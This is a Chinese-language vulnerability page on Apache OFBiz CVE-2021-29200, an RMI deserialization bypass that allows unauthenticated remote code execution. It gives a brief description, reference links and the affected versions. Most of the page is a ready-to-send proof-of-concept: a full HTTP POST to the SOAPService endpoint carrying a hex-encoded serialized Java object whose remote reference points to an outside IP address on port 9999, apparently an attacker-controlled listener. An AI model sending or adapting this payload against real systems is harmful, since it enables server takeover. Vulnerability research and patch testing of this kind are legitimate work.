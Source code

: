[Apache OFBiz RMI反序列化漏洞 CVE-2021-26295](Apache%20OFBiz%20RMI反序列化漏洞%20CVE-2021-26295.md)# Apache OFBiz RMI Bypass RCE CVE-2021-29200

# 漏洞描述

由于 Apache OFBiz 存在 Java RMI 反序列化漏洞，未经身份验证的用户可以执行 RCE 攻击，导致服务器被接管。

参考链接：

- https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
- https://xz.aliyun.com/t/9556

# 漏洞影响

```
Apache OFBiz < 17.12.07
```

# 漏洞复现

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```
